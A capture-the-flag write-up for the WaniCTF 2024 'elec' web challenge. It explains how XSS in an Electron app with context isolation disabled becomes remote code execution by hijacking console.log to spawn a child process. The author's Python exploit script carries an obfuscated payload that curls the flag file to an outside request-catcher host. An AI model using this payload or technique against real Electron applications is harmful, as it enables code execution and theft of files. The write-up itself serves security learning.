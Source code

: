 ```yaml
---
layout: post
title:  "elec - wanictf 2024"
date:   2023-03-19 11:00:34 -0400
---
```


https://ctftime.org/event/2377

Could not solve during the ctf but was very close.

# elec (web)

This is a classic xss -> report challenge but it uses a electron app instead of a puppeteer script.

## Solution

The xss happens on `/article/:id` and there are some limits to it by the CSP
```go
Content-Security-Policy", "default-src 'self'; script-src 'self' https://cdn.jsdelivr.net https://esm.sh 'unsafe-inline'; style-src 'self' https://cdn.jsdelivr.net; object-src 'none'; base-uri 'none'; frame-ancestors 'none'"
```

```javascript
const win = new BrowserWindow({
	width: 800,
	height: 600,
	webPreferences: {
		preload: path.join(__dirname, "preload.js"),
		contextIsolation: false,
		sandbox: false,
	},
});
```
electron window options:
- no nodeIntegration so we cant just do require('child_process')
- contextIsolation so if we set something in preload it will show in renderer
- more details:
    - https://www.electronjs.org/docs/latest/

```javascript
window.addEventListener("load", async () => {
	const versions = {
		app: "0.0.1",
		node: process.versions.node,
		chrome: process.versions.chrome,
		electron: process.versions.electron,
	};
	console.log(versions);

	const cp = spawn("uname", ["-a"]);
	console.log(cp);
	const kernelInfo = await loadStream(cp.stdout);

	document.getElementById("app-version").textContent = versions.app;
	document.getElementById("node-version").textContent = versions.node;
	document.getElementById("chrome-version").textContent = versions.chrome;
	document.getElementById("electron-version").textContent = versions.electron;
	document.getElementById("kernel-info").textContent = kernelInfo.toString();
	document.getElementById("admin-footer").classList.remove("d-none");
});
```
this is the preload script, the main vulnerability in this is that stuff can be overwritten from the xss. so if we set `document.getElementById = alert` an alert will popup.
there are 2 problems, the flag is in a file and `connect-src 'self'` so we need an rce.

looking at interesting stuff to overwrite, we see `console.log` being called with an instance of `ChildProcess`
so we overwrite that and call its constructor and just curl the flag

```python
#!/usr/bin/env python3
import requests
import base64
import re
import urllib

REMOTE = "http://0.0.0.0:1323/"

payload = """
<script//type="module">
var console = (function(oldCons){
    return {
        log: function(text){
            if (text.spawnfile) {
                const cp2 = new text.constructor();
                cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://lalalalalallalala.requestcatcher.com/'] });
                return oldCons.log(text);
            }

            oldCons.log(text);
        },
    };
}(window.console));

window.parent.console = console;
</script>
""".replace("\n", "").replace(" ", "&nbsp;").replace("<", "&lt;").replace(">", "&gt;")
payload = base64.b64encode(payload.encode()).decode()

body = f"""<img src=x onerror='javascript:a="{payload}";document.getElementById("content").innerHTML="<iframe srcdoc="+atob(a)+"></iframe>"'>"""
print(body)

res = requests.post(REMOTE, data={
        'title':body,
        'content':body
    })

try:
    url = re.search('action="(.+?)"', res.text).group(1)
    print(f"{REMOTE+url.replace('/report','article')}")
except Exception as e:
    print("error")

res = requests.post(REMOTE + url)
```

## Flag
`FLAG{r3m07e_c0d3_execu710n_v1a_3l3c7r0n}`

shafouz 2024/06/23
